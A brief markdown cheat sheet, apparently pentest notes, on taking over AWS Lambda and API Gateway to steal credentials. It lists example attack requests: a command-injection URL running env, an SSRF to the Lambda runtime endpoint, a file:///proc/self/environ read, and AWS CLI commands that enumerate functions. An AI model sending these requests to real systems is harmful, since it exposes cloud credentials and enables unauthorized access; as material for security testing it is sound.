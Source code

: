 # AWS Lambda and API Gateway Initial Access

### Its possible to get RCE through API Gateway if it executes commands.

### If you can execute commands, there is a way to retrieve keys from the API Gateway, just use env , configure aws cli and proceed with the exploitation.

# Credential Access

### Getting credentials from Lambda can be done in 2 ways

#### 1) Keys in the source code

#### 2) Keys in the enviromnent variables

### These keys can be gathered using SSRF, RCE and so on.

## Getting credentials using RCE

 - https://apigateway/prod/system?cmd=env

## Getting credentials using SSRF

 - https://apigateway/prod/example?url=http://localhost:9001/2018-06-01/runtime/invocation/

## Getting credentials using SSRF and wrappers

 - https://apigateway/prod/system?cmd=file:///proc/self/environ

## Getting credentials from lambda enviroment variables (cli)

 - aws lambda get-function --function-name NAME (It's important to enumerate the functions first with: aws lambda list-functions)
